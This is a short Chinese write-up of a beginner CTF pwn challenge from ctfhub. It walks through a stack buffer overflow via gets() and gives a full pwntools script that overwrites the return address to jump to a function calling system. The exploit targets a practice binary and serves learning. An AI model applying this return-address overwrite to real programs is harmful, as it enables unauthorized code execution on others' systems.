


写的第一个pwn题目来源于ctfhub

这个考的就是最基本的栈溢出

ida分析main函数



gets存在危险

查看v4大小为0x70

然后看secure该函数发现了system

<figure>



<figcaption>

地址为0x4007B8

</figcaption>

</figure>

所以覆盖返回地址即可。

payload = b'a'\*0x78+p64(0x4007B8) // 78是70加上8 64位加8

完整代码为：

```
from pwn import *;

p=process("./pwn")
#p = connect("challenge-6e474600ed68d21e.sandbox.ctfhub.com",31271)
payload = b'A' * 0x78 + p64(0x4007b8)
p.sendline(payload)
p.interactive()
```
